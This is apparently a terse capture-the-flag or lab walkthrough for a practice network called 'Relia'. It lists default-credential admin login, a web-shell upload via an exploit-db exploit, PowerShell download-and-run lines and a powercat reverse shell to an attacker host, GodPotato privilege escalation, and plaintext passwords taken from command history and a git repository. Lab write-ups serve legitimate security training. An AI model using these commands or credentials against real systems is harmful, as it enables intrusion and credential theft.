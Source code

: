 # Relia

## Legacy .249

### Web

go to [http://192.168.105.249:8000/cms/admin.php](http://192.168.105.249:8000/cms/admin.php) and login with admin:admin

then [https://www.exploit-db.com/exploits/50616](https://www.exploit-db.com/exploits/50616)

upload the web shell and then go on [http://192.168.105.249:8000/cms/files/shell.pHp?cmd=dir](http://192.168.105.249:8000/cms/files/shell.pHp?cmd=dir) to launch a reverse shell&#x20;

```
iex (iwr -UseBasicParsing http://192.168.105.250/Invoke-PowerShellTcp.ps1)
```

you have connettivity only on the given machine (.250)

### privesc

use godpotato

in powershell history at C:\Users\adrian\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine there are damon credential

damon : i6yuT6tym@

## Legacy .189

Download /staging/.git from .249 to analyze the commits

maildmz@relia.com:DPuBT9tGCBrTbR

now use this attack [https://github.com/gustanini/WinLib\_Gen](https://github.com/gustanini/WinLib_Gen)



{% code overflow="wrap" %}
```
powershell.exe -c "iex (iwr -UseBasicParsing http://192.168.190.250:80/powercat.ps1);powercat -c 192.168.190.250 -p 4444 -e powershell"
```
{% endcode %}

